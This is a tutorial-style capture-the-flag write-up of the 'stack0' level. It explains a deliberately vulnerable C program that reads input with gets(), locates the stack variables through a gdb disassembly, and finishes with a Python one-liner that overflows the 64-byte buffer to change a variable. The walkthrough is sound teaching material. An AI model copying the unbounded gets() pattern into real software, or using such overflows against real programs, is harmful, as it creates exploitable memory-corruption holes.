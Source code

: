 > This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```
- As we can see a `modified` variable is initialized which has the qualifier `volatile` is created. The `volatile` qualifier tells the compiler to not optimize the usage of the variable as it can be changed at any time. 
- Afterwards, a buffer of 64 bytes is created.
- The variable is later initialized to `0`.
- The `gets` system call is used to read user input into the buffer. This syscall is infamous for it's bugs. 
- Let's look at the manual page.
```
 BUGS     

       Never use gets(). Because it is impossible to tell without
       knowing the data in advance how many characters gets() will read,
       and because gets() will continue to store characters past the end
       of the buffer, it is extremely dangerous to use. It has been
       used to break computer security. 
```
- So the `gets` syscall stores characters past the end of the buffer. This essentially breaks the limit set on the buffer which means we can input more than 64 bytes.
- This is the vulnerability that we have to exploit.
- But before that let's go through the rest of the code. 
- There is an `if` statement which checks if the value of `modified` in not equal to zero. If it is not equal to 0, it prints out a string `else` it prompts us to try again.
- We have to overwrite the `modified` variable using a buffer overflow. For that we have have to know where the `modified` variable is located.
- Let's disassemble the program in `gdb`.
```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
```
- Look at the instruction at `main+9`.
```
--snip--;
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
--snip--;
```
- We can see that the variable is located at `esp+0x5c` and is set to zero using dereferencing.
- Next, we want to locate the buffer.
```
--snip--;
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
--snip--;
```
- In 32-bit assembly the arguments for a `call` are stored onto the `stack`.
- In our program the `gets` syscall takes the location of the buffer as argument. This buffer is located at `esp+0x1c`.
- The distance between the location of the `modified` variable and the buffer is the following:
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
- The variable is located right where the buffer ends.
- Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `modified` variable. 
```
$ ./stack0
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaB
you have changed the 'modified' variable
```
- We can use `python` to craft the exploit.
```
$ python -c 'print "a"*(64)+"B"' | ./stack0
you have changed the 'modified' variable
```
